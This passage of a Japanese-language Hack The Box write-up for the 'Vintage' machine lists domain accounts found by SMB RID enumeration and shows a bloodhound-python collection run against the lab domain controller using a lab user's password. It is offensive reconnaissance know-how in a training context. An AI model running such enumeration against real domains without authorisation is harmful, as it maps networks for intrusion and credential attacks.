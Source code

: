 ```bash
SMB         dc01.vintage.htb 445    dc01             1137: VINTAGE\ServiceManagers (SidTypeGroup)
SMB         dc01.vintage.htb 445    dc01             1140: VINTAGE\C.Neri_adm (SidTypeUser)
SMB         dc01.vintage.htb 445    dc01             1141: VINTAGE\L.Bianchi_adm (SidTypeUser)
```

コンピュータアカウントを含むドメインユーザーを取得できたので、ユーザーリストにまとめておきます。

```
Administrator
Guest
krbtgt
DC01$
gMSA01$
FS01$
M.Rossi
R.Verdi
L.Bianchi
G.Viola
C.Neri
P.Rosa
svc_sql
svc_ldap
svc_ark
C.Neri_adm
L.Bianchi_adm
```

## BloodHound

つづいてBloodHoundをつかって列挙していきます。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ bloodhound-python -d vintage.htb -u 'P.Rosa' -p 'Rosaisbest123' -dc dc01.vintage.htb -ns 10.10.11.45 --zip -c All
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: vintage.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.vintage.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: dc01.vintage.htb
INFO: Found 16 users
INFO: Found 58 groups
INFO: Found 2 gpos
INFO: Found 2 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: FS01.vintage.htb
INFO: Querying computer: dc01.vintage.htb
WARNING: Could not resolve: FS01.vintage.htb: The resolution lifetime expired after 3.104 seconds: Server Do53:10.10.11.45@53 answered The DNS operation timed out.
INFO: Done in 00M 27S
INFO: Compressing output into 20250113104031_bloodhound.zip
```
